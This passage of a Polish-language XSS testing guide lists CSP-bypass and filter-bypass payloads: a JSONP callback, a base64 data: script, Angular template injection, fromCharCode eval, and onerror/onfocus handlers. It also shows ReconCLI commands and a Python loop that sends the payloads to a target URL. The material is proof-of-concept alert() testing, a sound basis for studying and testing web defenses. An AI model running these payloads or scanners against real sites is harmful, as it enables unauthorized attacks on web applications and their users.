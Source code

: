 ```html
```

### CSP Bypass
```html
<!-- JSONP gdy whitelisted -->
<script src="//accounts.google.com/o/oauth2/revoke?callback=alert"></script>

<!-- Base64 gdy data: allowed -->
<script src="data:application/javascript,YWxlcnQoMSk="></script>

<!-- Angular gdy unsafe-eval -->
{{constructor.constructor('alert(1)')()}}
```

### Filter Bypass
```html
<!-- Keyword filters -->
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>

<!-- Tag filters -->
<img src=x onerror=alert(1)>

<!-- Event filters -->
<input onfocus=alert(1) autofocus>
```

## 🤖 AUTOMATYZACJA TESTOWANIA {#automatyzacja}

### Użycie ReconCLI
```bash
# Testowanie podstawowe
python -m reconcli --xss --target https://example.com

# Z custom payloadami
python -m reconcli --xss --payloads xss-advanced.txt --target https://example.com

# Testowanie różnych kontekstów
python -m reconcli --xss --context all --target https://example.com
```

### Custom scripting
```python
import requests

payloads = [
    "<script>alert(1)</script>",
    "<img src=x onerror=alert(1)>",
    "<svg onload=alert(1)>",
    "javascript:alert(1)"
]

for payload in payloads:
    response = requests.get(f"https://target.com/search?q={payload}")
    if payload in response.text:
        print(f"Potential XSS: {payload}")
```
